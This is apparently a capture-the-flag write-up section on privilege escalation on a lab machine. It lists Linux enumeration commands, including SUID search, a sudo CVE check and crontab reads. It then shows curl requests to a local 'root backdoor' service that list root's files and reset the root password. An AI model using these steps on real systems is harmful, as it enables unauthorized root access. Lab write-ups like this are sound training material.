 # Horizontal Privesc

When I enumerate I run a few commands:</br>
```
id <- to see groups 
sudo -l <- do I have privs?
sudo -V <- CVE-2021-3156?
uname -a <- Kernel exploits?
find / -type f -name root or a user -perm /4000 2>/dev/null <- find suid binaries
cat /etc/crontab
netstat -a <- view active connections and running servers
```
And what do you know? `netstat -a` returns a service running on `http://127.0.0.1:8080`. Now normally you would setup port forwarding, but why? Just try curling it first!

```
curl http://127.0.0.1:8080/

**********************************************************
*      Mason's Root Backdoor       *
*              *
*   Please Send Request (with "password" and "cmdtype")  *
*              *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```
Noice, we have Mason's password, so lets try a proof of concept:

```
mason@lunizz:/home/adam$ curl -X POST -F "password=**********" -F "cmdtype=lsla" http://127.0.0.1:8080/passwd
total 44
drwx------  6 root root 4096 Dec 10 19:58 .
drwxr-xr-x 25 root root 4096 Dec 14 04:53 ..
lrwxrwxrwx  1 root root    9 Dec 10 19:53 .bash_history -> /dev/null
-rw-r--r--  1 root root 3771 Dec 10 19:15 .bashrc
drwx------  3 root root 4096 Dec 10 20:13 .cache
drwx------  3 root root 4096 Dec 10 19:15 .gnupg
-rw-r--r--  1 root root  794 Dec  8 16:39 index.php
drwxr-xr-x  3 root root 4096 Dec 10 19:14 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   37 Dec  8 16:56 root.txt
-rw-r--r--  1 root root   66 Dec 10 19:35 .selected_editor
drwx------  2 root root 4096 Dec 10 19:09 .ssh
**********************************************************
* 		 Mason's Root Backdoor			 *
*							 *
*   Please Send Request (with "password" and "cmdtype")	 *
*							 *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```
Awesome, so time to check out `passwd`
```
mason@lunizz:/home/adam$ curl -X POST -F "password=**********" -F "cmdtype=passwd" http://127.0.0.1:8080/passwd
<br>Password Changed To :**********<br>
**********************************************************
* 		 Mason's Root Backdoor			 *
```